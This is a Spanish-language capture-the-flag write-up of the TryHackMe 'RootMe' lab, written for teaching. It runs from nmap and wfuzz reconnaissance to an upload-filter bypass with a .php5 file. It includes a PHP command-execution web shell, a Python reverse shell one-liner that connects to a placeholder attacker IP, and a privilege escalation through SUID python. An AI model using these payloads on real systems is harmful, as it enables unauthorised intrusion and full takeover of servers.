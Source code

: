 # RootMe-THM
## Máquina RootMe de TryHackMe en Español
<p align="center">
  <img src='https://github.com/user-attachments/assets/0eff2b42-89aa-4a0a-8bfa-998bc57b21b1'></img>
</p>
"RootMe" es una máquina en TryHackMe diseñada para desafiar tu ingenio y creatividad al pensar como un atacante. Con un enfoque didáctico, esta máquina es ideal tanto para principiantes como para usuarios de nivel intermedio.
Utilizamos una variedad de herramientas fundamentales: Nmap, Wfuzz, Wappalyzer, Curl, Netcat, Burp Suite, etc.

-------------------------------------------
## Fase de Reconocimiento
Realizar un reconocimiento sirve para comprender el entorno objetivo. En la máquina "RootMe" de TryHackMe, comenzamos con la fase de Reconocimiento para identificar qué servicios están expuestos y qué puntos de entrada podrían ser explotados.
El comando `ping` para verificar que la máquina objetivo está en línea y responde a una traza ICMP
```
ping -c 1 10.10.244.159

PING 10.10.244.159 (10.10.244.159) 56(84) bytes of data.
64 bytes from 10.10.244.159: icmp_seq=1 ttl=61 time=185 ms
```
El resultado muestra que la máquina está activa, con un `TTL` de `61`, lo que indica que es muy probablemente un sistema Linux. Vamos a identificar los puertos abiertos en la máquina utilizando `nmap`.
```
nmap -p- --open -sS --min-rate 2000 -vvv -n -Pn -oN rmPorts 10.10.244.159

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```
Este comando realiza un escaneo completo de todos los puertos `-p-`, enfocándose solo en aquellos que están abiertos `--open`. Además, el uso de -Pn desactiva el escaneo de host y `--min-rate 2000` asegura un escaneo un poco más rápido.
- Puerto 22/tcp: Servicio SSH
- Puerto 80/tcp: Servicio HTTP

Los puertos abiertos (22 y 80) en la máquina "RootMe", se debe obtener más detalles sobre los servicios que están corriendo en esos puertos. Esto nos permitirá identificar versiones específicas que podrían tener vulnerabilidades conocidas.
```
nmap -p22,80 -sCV -oN rmVersion 10.10.244.159

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Este comando escanea los puertos 22 y 80, utilizando scripts estándar `-sC` y detección de versiones `-sV`. Dado que el puerto 22 está abierto, se puede investigar más sobre posibles credenciales para SSH, pero el foco principal será investigar el servicio HTTP en el puerto 80.

----------------------------
## Fase de Enumeración
Enfocado en el puerto 80, que aloja un servidor web. Usando `Wappalyzer` se detecto que la aplicación web está construida con `PHP` y corre sobre un servidor `Apache`.
<p align="center">
  <img src='https://github.com/user-attachments/assets/bd48cefc-6700-4fdc-bbd2-1db71ae98a35'></img>
</p>
Igualmente al inspeccionar la página con las herramientas de desarrollo del navegador, encontramos una cookie de sesión llamada `PHPSESSID`, que te puede confirmar el uso de `PHP` en la aplicación.
<p align="center">
  <img src='https://github.com/user-attachments/assets/28b45b91-430d-4e32-aa10-8b70c413febd'></img>
</p>
Para encontrar directorios ocultos en el servidor, utilicé la herramienta de fuzzing `wfuzz` que nos permite hacer fuerza bruta para descubrir recursos no visibles desde la interfaz pública del sitio

```
wfuzz -c --hc=404 -t 15 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.244.159/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================
000000164:   301        9 L      28 W       316 Ch      "uploads"                              
000000550:   301        9 L      28 W       312 Ch      "css"
000000953:   301        9 L      28 W       311 Ch      "js"
000005520:   301        9 L      28 W       314 Ch      "panel"  
```
Una explicacion de Explicación del Comando de `Wfuzz`:
`-c` muestra la salida en colores, `--hc=404` filtra las respuestas que devuelven un código HTTP 404, `-t 15` usa 15 hilos para realizar las solicitudes en paralelo, acelerando este proceso, `-w` Especifica el diccionario a usar, en este caso uno que contiene nombres comunes de directorios.

Despues de investigar cada rutas encontradas `/uploads` se encontro un panel que permite la carga de archivos, lo que puede ser un punto de entrada letal si no está asegurado correctamente.
<p align="center">
  <img src='https://github.com/user-attachments/assets/eace86c6-d8d7-4c0d-8c7b-0d8c6c39623a'/>
</p>

-------------------------------------------
## Fase de Explotación
Se intenta subir un archivo `PHP`, pero respondió con un mensaje de "archivo no permitido". Me da entender que el servidor tiene un filtrado para impedir la carga de archivos con ciertas extensiones peligrosas, como `.php`.
<p align="center">
  <img src='https://github.com/user-attachments/assets/c644f5a9-c527-4ffd-b91c-a2da30ab527c'/>
</p>

Una idea seria realizar una evasión de restricciones de extensiones. En HackTricks, investigando que PHP puede ser ejecutado a través de varias extensiones no tradicionales, como `.php5`. Esto significa que incluso si el servidor bloquea la extensión `.php`, otras variantes podrían no estar restringidas. Para explotar esta posible via, intercepto la solicitud HTTP usando `Burp Suite`
<p align="center">
  <img src='https://github.com/user-attachments/assets/e0380fac-bb4b-4b06-9f79-fdff2c4a8f1c'/>
</p>
Modificando el nombre del archivo en el encabezado `Content-Disposition` a `shellico.php5`. Esta técnica de modificar la extensión en el momento del envío permite evadir la protección basada en la extensión del archivo. Con este script `RCE` en php.

```
<?php
 system($_GET["cmd"]);
?>
```
Este script permite ejecutar comandos del sistema en el servidor al pasar el parámetro `"cmd"` en la URL. 
<p align="center">
  <img src='https://github.com/user-attachments/assets/ce463ba3-54d7-499e-b1e5-2672aaed54df'/>
</p>
La respuesta confirma que el servidor acepta y ejecuta archivos con la extensión .php5. El script `shellico.php5` lo buscamos en el directorio `/uploads` encontrado con `wfuzz`
<p align="center">
  <img src='https://github.com/user-attachments/assets/77981ebd-7acc-4849-8af7-8200f0060ba4'/>
</p>
Usar `curl` para verificar si el parametro cmd funciona y nos hace un RCE

```
curl http://10.10.244.159/uploads/shellico.php5?cmd=whoami
www-data

curl http://10.10.244.159/uploads/shellico.php5?cmd=which%20python3
/usr/bin/python3
```

Los comandos se están ejecutando corectamente, verificamos con `whoami` quien es el usuario del servidor web `www-data`, muy típico en entornos Apache. Luego, se verifica si Python 3 está instalado en el servidor, lo que podría ser útil para obtener una `reverse shell`.

Hay que establecer una `Reverse shell` para obtener un acceso más completo al sistema. Usamos este comando en Python que crea nos da una `reverse shell` desde el servidor comprometido hacia mi máquina
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("TU_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```
Enviaremos el payload través de `Burp Suite` y nos colocaremos en escucha con `netcat`, el payload que contiene la reverse shell la vamos a url-encodear para evitar posibles conflictos.
<p align="center">
  <img src='https://github.com/user-attachments/assets/716a5978-237e-4a78-9b03-8e7897fe5c84'/>
</p>

```
nc -nlvp port

$ whoami
whoami
www-data
```

La reverse shell se establecio exitosamente. Esto nos da un acceso interactivo al servidor, lo que permite obtener la primera `flag` y la posibilidad de `escalar privilegios` para obtener el usuario `root` y tener control total sobre el sistema.

Después de establecer una `reverse shell` y configurar un entorno de trabajo más cómodo utilizando una TTY interactiva. Con `find` intentare buscar un binario con permisos `SUID` 
```
find / -type f -perm -4000 2>/dev/null

```
Usando [gtfobins](https://gtfobins.github.io/gtfobins/python/#suid) que es una excelente web para encontrar métodos de explotación de binarios comunes con SUID. Usamos este comando ejecuta una shell (/bin/sh) con privilegios elevados gracias al SUID de Python, sin perder los privilegios de root.

```
www-data@rootme:/var/www$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```
Ya tengo acceso como usuario `root`, completando así la escalada de privilegios de manera exitosa y obtienendo la ultima `flag` de la maquina RootMe
